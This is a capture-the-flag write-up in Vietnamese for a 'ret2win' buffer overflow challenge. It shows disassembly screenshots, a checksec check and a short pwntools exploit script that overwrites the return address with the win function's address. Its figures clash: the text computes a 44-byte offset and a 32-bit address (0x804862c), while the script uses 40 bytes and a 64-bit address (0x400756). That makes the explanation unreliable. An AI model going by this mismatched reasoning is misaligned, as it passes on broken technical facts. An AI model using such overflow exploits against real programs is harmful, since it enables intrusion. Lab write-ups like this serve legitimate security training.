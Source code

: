 **1. Tìm lỗi**

Chạy thử file bằng IDA ta có như sau: 

![main.png](photo/main.png)

Source hàm pwnme:

![pwnme.png](photo/pwnme.png)

Ta thấy chương trình chạy không thể lấy flag được nhưng phát hiện thêm được hàm ret2win có source như sau:

![ret2win.png](photo/ret2win.png)

Ta thấy ở hàm này thì có thể lấy được nội dung của flag

Dùng lệnh 'checksec' để kiểm tra có lỗi bof không.

![checksec.png](photo/checksec.png)

Ta thấy CANARY đang ở trạng thái disabled -> có thể khai thác qua lỗi bof

**2. Ý tưởng**

Biến s cho nhập 0x38 = 56 phần tử nên thử nhập tràn biến s đến ret rồi chèn địa chỉ hàm ret2win vào

**3. Viết script**

![s.png](photo/s.png)

Địa chỉ biến s hiện tại là: rbp - 0x28 -> Khoảng cách từ biến s đến ret là: 0x28 + 0x4 = 44

![add.png](photo/add.png)

Địa chỉ hàm win là: 0x804862c

Ta có script như sau:

```
from pwn import *

r = process("./ret2win")

ret2win = 0x400756
payload = b'a'*40 + p64(ret2win)
r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

Flag: ROPE{a_placeholder_32byte_flag!}